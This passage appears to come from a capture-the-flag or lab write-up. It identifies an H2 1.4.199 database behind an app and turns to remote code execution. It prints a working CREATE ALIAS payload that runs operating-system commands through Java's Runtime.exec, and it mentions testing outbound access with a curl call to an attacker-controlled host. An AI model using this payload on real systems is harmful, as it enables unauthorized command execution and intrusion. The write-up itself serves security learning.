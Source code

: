 ```sql
SELECT H2VERSION() FROM DUAL
```

<figure><img src="../../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

Now we can confirm that backend runs H2 database: Version 1.4.199.

### Exploit

After googling for a while, I found few blogs,poc and wirteups.

1. [https://github.com/cExplr/H2\_RCE\_Exploit/tree/master](https://github.com/cExplr/H2_RCE_Exploit/tree/master)

{% embed url="https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html" %}

The following snippet let's us execute code:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('id')
```

I tried using `curl MYIP:PORT/test` to test the payload

